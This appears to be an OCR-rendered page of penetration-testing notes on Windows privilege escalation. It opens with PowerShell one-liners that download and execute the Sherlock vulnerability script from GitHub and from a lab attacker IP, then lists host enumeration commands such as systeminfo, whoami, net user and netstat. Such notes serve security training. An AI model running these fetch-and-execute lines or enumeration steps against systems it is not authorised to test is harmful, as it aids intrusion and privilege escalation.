 ## **Powershell to download :**

-   powershell.exe \"IEX(New-Object
    > Net.WebClient).downloadString(\'https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1\')\"

## **Powershell to PE :**

-   Install sherlock ps1 github And run : powershell \"IEX(New-Object
    > Net.WebClient).downloadString(\'http://192.168.119.180[[/Sherlock.ps1]{.underline}](https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1)\');
    > Find-AllVulns"

# **Windows Privileges Escalation** 

## **Enumeration**

> OS version, installed patch information
>
> systeminfo
>
> Hostname
>
> hostname
>
> Current username
>
> whoami
>
> echo %username%
>
> If
> [[whoami.exe]{.underline}](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/whoami)
> is not available, upload the whoami.exe from
> /usr/share/windows-resources/binaries/whoami.exe to target system and
> run it.
>
> List open connection
>
> netstat -anto
>
> Display all local users
>
> net user
>
> Windows firewall status
>
> netsh firewall show state
>
> Routing table rules
>
> route print
>
> List of running process
>
> tasklist /svc
>
> List all the Services
>
> net start